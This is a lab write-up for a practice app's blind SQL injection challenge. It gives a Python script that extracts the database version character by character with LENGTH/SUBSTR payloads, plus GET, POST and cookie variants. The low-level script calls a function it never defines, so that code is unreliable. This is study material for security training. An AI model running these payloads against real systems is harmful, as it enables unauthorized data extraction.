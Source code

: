 # SQL Injection (Blind)

Objective

Find the version of the SQL database software through a blind SQL attack.

**I'd highly recommend finishing the SQL injection challenge first.**

## low

We can use bisection method on each character and concat them later.

Firstly we extend the query to some conditional selection:  
`1' AND SELECT VERSION()=??;#`.

To check string length:  
`1' AND SELECT LENGTH(VERSION())=??;#`

To check a character:  
`1' AND SELECT SUBSTR(VERSION(),?,1)=??;#`

Combine them in a python script it should look like this:  
```py
import requests
import urllib.parse
import re

PHPSESSID = 'aar5o16ckg3gdd9eqneruhcjr5'
SECURITY = 'low'
SUCCESS = 'User ID exists in the database.'
FAILURE = 'User ID is MISSING from the database.'

def query_by_get(data):
    data = urllib.parse.quote_plus(data.encode())
    response = requests.get(
        url=f'http://localhost:9999/vulnerabilities/sqli_blind/?id={data}&Submit=Submit',
        headers={'Cookie': f'PHPSESSID={PHPSESSID}; security={SECURITY}'}
    )
    return re.search(FAILURE, response.text) is None

def crack_length():
    print('[-] cracking length')

    template = "1' AND LENGTH(VERSION()){}{};#"
    lower, upper = 1, 100
    while True:
        # print(f'[-] cracking {lower}, {upper}')
        if upper == lower + 1:
            if query_by_post(template.format('=', lower)):
                print(f'[+] Success! length={lower}')
                return lower
            else:
                break
        mid = (lower + upper) // 2
        if query_by_post(template.format('<', mid)):
            upper = mid
        else:
            lower = mid

    print('[-] crack length failed!')
    return False

def crack_characters(length):
    print('[-] cracking characters')

    template = "1' AND SUBSTR(VERSION(),{},1){}{}#"
    s = ""
    for i in range(1, length+1):
        lower, upper = 33, 127
        while True:
            if upper == lower + 1:
                if query_by_post(template.format(i, '=', hex(lower))):
                    print(f'[+] found s[{i}]={chr(lower)}')
                    s += chr(lower)
                    break
                else:
                    print(f'[-] failed at s[{i}]')
                    return False
            mid = (lower + upper) // 2
            if query_by_post(template.format(i, '<', hex(mid))):
                upper = mid
            else:
                lower = mid

    print(f'[+] Success! s={s}')
    return s

if __name__ == '__main__':
    # print(query_by_post('1'))
    # True
    # print(query_by_post('999'))
    # False
    version_s = crack_characters(crack_length())
    print(version_s)
    # 10.1.26-MArIADB-0+DEB9u1
```

> 10.1.26-MariaDB-0+deb9u1

## medium

In this challenge we inject our selection after an integer, so the single 
quote in the template is not necessary any more.  
```py
def query_by_post(data):
    data = urllib.parse.quote_plus(data.encode())
    response = requests.post(
        url='http://localhost:9999/vulnerabilities/sqli_blind/',
        data=f'id={data}&Submit=Submit',
        headers={
            'Content-Type': 'application/x-www-form-urlencoded',
            'Cookie': f'PHPSESSID={PHPSESSID}; security={SECURITY}'
        }
    )
    return re.search(FAILURE, response.text) is None

# template = "1 AND LENGTH(VERSION()){}{};#"
# template = "1 AND SUBSTR(VERSION(),{},1){}{}#"
```

## high

It is tricky that the form webpage only sets our cookie to the selected id with
no specific responses. When we go back to the original page the server 
reads our cookie and sends us the status message.

However, we could manually set the cookie and query the original page. So our
script can be modified like this:  
```py
def query_by_get(data):
    data = urllib.parse.quote_plus(data.encode())
    response = requests.get(
        url=f'http://localhost:9999/vulnerabilities/sqli_blind/',
        headers={'Cookie': f'id={data}; PHPSESSID={PHPSESSID}; security={SECURITY}'}
    )
    return re.search(FAILURE, response.text) is None
```
